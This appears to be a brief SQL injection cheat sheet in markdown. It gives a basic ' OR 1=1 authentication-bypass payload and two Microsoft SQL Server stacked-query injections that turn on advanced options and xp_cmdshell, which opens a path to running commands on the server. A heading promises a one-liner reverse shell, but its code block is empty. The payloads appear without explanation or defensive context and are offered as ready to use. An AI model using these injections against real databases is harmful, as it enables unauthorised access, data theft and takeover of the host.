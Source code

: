 # First
```
' OR 1=1;
```

# MSSQL
enabled show advance options
```
'; EXEC sp_configure 'show advanced options', 1; RECONFIGURE; --
```

enabled xp_cmdshell
```
'; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE; --
```

one liner reverseshell
```

```